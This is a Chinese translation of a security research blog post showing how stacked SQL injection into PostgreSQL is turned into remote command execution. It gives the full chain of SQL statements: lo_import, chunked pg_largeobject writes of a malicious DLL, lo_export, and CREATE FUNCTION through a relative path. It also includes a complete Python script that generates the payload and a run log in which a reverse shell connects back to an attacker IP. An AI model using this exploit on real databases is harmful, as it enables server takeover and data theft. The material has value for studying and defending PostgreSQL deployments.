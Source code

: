 > 原文链接: https://www.anquanke.com//post/id/215954 


# Pgsql堆叠注入场景下通过`CREATE FUNCTION`来实现命令执行


                                阅读量   
                                **123318**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者Steven Seeley，文章来源：srcincite.io
                                <br>原文地址：[https://srcincite.io/blog/2020/06/26/sql-injection-double-uppercut-how-to-achieve-remote-code-execution-against-postgresql.html](https://srcincite.io/blog/2020/06/26/sql-injection-double-uppercut-how-to-achieve-remote-code-execution-against-postgresql.html)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p5.ssl.qhimg.com/t0156b686f4bd1947cb.png)](https://p5.ssl.qhimg.com/t0156b686f4bd1947cb.png)



## 2. 前言

在本篇文章中我将分享如何在`PostgreSQL`堆叠注入场景中通过`CREATE FUNCTION`关键字来实现命令执行的思路。

简要信息如下：
- CVE：N/A
- CVSS：4.1 (AV:N/AC:H/PR:H/UI:N/S:U/C:L/I:L/A:L)
- 适用环境：Windows、Linux、Unix
在新版的`PostgreSQL`中：
- 12.3
- 11.8
- 10.13
- 9.6.18
- 9.5.22
其数据库超管用户被限制只允许从默认目录读取后缀为`.dll`或`.so`动态库文件，举例如下：
<li>Windows：`C:\Program Files\PostgreSQL\11\lib`
</li>
<li>Unix/Linux：`/var/lib/postgresql/11/lib`
</li>
此外，默认情况下`NETWORK_SERVICE`与`postgres`这两个系统用户对该目录均无写入权限。但是经过鉴权的数据库超管用户可以通过调用`lo_import`函数将文件写入`pg_largeobject`系统表，再更新对应的数据内容将原本的内容替换为我们的恶意代码（通常是反弹个shell），随后通过`lo_export`函数转储数据至动态库目录，最终生成我们的恶意动态库文件。`CREATE FUNCTION`的另一个骚操作就是可以接收指定目录来遍历其动态库中的相关函数。因此只要已鉴权用户可以将动态库文件写入对应的存储目录，然后通过`CREATE FUNCTION`的目录遍历特性来加载动态库文件就可以实现命令执行。



## 3. 利用流程

### 3.1. 通过`lo_import`获得一个`OID`

`pg_largeobject`系统表保存了那些标记为`large object(大对象)`的数据。 每个`大对象`都会关联其被创建成功时分配的`OID`标志。此后`大对象`都分解成足够小的数据块并关联`pageno`字段来存储`pg_largeobject`里。每页的数据定义为`LOBLKSIZE(目前是BLCKSZ/4或者通常是 2K 字节)`。<br>
该过程需使用`lo_import`函数，举例如下:

```
select lo_import('C:/Windows/win.ini',1337);
#不是必须使用`C:/Windows/win.ini`,任意一个存在的绝对路径都行，只是为了得到一个OID，在本例中OID为1337
```

在Windwos场景下这里我们还可以使用[`UNC路径`](https://docs.microsoft.com/zh-cn/windows-hardware/drivers/debugger/using-unc-shares)，如果使用该项技术则可跳过3.3，但我希望兼容Unix/Windows平台，所有没有使用。

### 3.2. 基于`OID`来进行数据替换

现在，我们基于`OID`的值来替换`pg_largeobject`表中的数据，将其对应内容替换为我们的恶意代码。这些`恶意代码`最终需要基于目标数据库的完整版本来进行编译还要匹配对应的系统架构。对于超过2048字节大小的文件，`pg_largeobject`表需使用`pageno`字段来将文件分割成大小为2048字节大小的数据块。分割示例如下：

```
update pg_largeobject SET pageno=0, data=decode(4d5a90...) where loid=1337;
insert into pg_largeobject(loid, pageno, data) values (1337, 1, decode(74114d...));
insert into pg_largeobject(loid, pageno, data) values (1337, 2, decode(651400...));
...
```

通过使用PostgreSQL中的[`object identifier types`](https://www.postgresql.org/docs/8.1/datatype-oid.html)，可以跳过第1阶段（并且仅对第2阶段执行单个语句执行），但是我没有时间确认这一点。

### 3.3. 使用`lo_export`函数生成恶意动态库

现在我们可以通过`lo_export`来转储之前变相导入的数据来生恶意的动态库文件。不过这一步不能指定目录，因为这样做会触发`PostgreSQL`内置的安全检查，而且就算能绕过该检查，`NETWORK_SERVICE`（Unix/Linux场景下为`postgres`）帐户也存在路径限制，搞不定搞不定。

```
select lo_export(1337, 'poc.dll');
# 导出的poc.dll会存储在默认的动态库目录
```

### <a class="reference-link" name="3.4.%20%E5%9F%BA%E4%BA%8E%E6%81%B6%E6%84%8F%E5%8A%A8%E6%80%81%E5%BA%93%E6%96%87%E4%BB%B6%E5%88%9B%E5%BB%BA%E5%87%BD%E6%95%B0"></a>3.4. 基于恶意动态库文件创建函数

我在以往的研究中提到过，可以使用绝对路径（包括`UNC`）来加载基于`Postgresql 9.x`的扩展从而执行系统命令。`[@zerosum0x0](https://github.com/zerosum0x0)`师傅也有相关的[操作笔记](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html)。不过那个时候对系统用户的文件操作权限并没有那么多的限制。

```
create function connect_back(text, integer) returns void as '//attacker/share/poc.dll', 'connect_back' language C strict;
```

如今几年过去了，PostgreSQL官方决定禁用`CREATE FUNCTION`时使用绝对路径导致现在这种技术已经失效了。不过现在我们可以很方便地从对应的默认动态库目录中遍历并加载我们转储的恶意动态库文件，举例如下：

```
create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;
# 作者注入的恶意代码就是用来反弹shell的，因此创建函数才如此构造，实际场景中可根据需要自定义。
```

### <a class="reference-link" name="3.4.%20%E5%8F%8D%E5%BC%B9shell"></a>3.4. 反弹shell

成功创建`connect_back`函数后，直接通过`select`指令来调用：

```
select connect_back('192.168.100.54', 1234);
```



## 4. 问题现状

[`ZDI团队`](https://www.zerodayinitiative.com/)咨询过PostgreSQL官方对该问题的意见，但无后文，后来我得知官方并不打算修复此问题，因为官方认为该问题属于正常系统功能而不是漏洞。



## 5. 造个轮子

代码如下，将生成poc.sql文件，以超管用户在数据库上逐步执行，或将poc.sql中的sql命令逐个通过注入点执行：

```
#!/usr/bin/env python3
import sys

if len(sys.argv) != 4:
    print("(+) usage %s &lt;connectback&gt; &lt;port&gt; &lt;dll/so&gt;" % sys.argv[0])
    print("(+) eg: %s 192.168.100.54 1234 si-x64-12.dll" % sys.argv[0])
    sys.exit(1)

host = sys.argv[1]
port = int(sys.argv[2])
lib = sys.argv[3]
with open(lib, "rb") as dll:
    d = dll.read()
sql = "select lo_import('C:/Windows/win.ini', 1337);"
for i in range(0, len(d)//2048):
    start = i * 2048
    end   = (i+1) * 2048
    if i == 0:
        sql += "update pg_largeobject set pageno=%d, data=decode('%s', 'hex') where loid=1337;" % (i, d[start:end].hex())
    else:
        sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % (i, d[start:end].hex())
if (len(d) % 2048) != 0:
    end   = (i+1) * 2048
    sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % ((i+1), d[end:].hex())

sql += "select lo_export(1337, 'poc.dll');"
sql += "create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;"
sql += "select connect_back('%s', %d);" % (host, port)
print("(+) building poc.sql file")
with open("poc.sql", "w") as sqlfile:
    sqlfile.write(sql)
print("(+) run poc.sql in PostgreSQL using the superuser")
print("(+) for a db cleanup only, run the following sql:")
print("    select lo_unlink(l.oid) from pg_largeobject_metadata l;")
print("    drop function connect_back(text, integer);")
```

跑一下展示下效果：

```
steven@pluto:~/postgres-rce$ ./poc.py 
(+) usage ./poc.py &lt;connectback&gt; &lt;port&gt; &lt;dll/so&gt;
(+) eg: ./poc.py 192.168.100.54 1234
steven@pluto:~/postgres-rce$ ./poc.py 192.168.100.54 1234 si-x64-12.dll
(+) building poc.sql file
(+) run poc.sql in PostgreSQL using the superuser
(+) for a db cleanup only, run the following sql:
    SELECT lo_unlink(l.oid) FROM pg_largeobject_metadata l;
    DROP FUNCTION connect_back(text, integer);
steven@pluto:~/postgres-rce$ nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 192.168.100.122 49165 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\PostgreSQL\12\data&gt;whoami
nt authority\network service

C:\Program Files\PostgreSQL\12\data&gt;
```
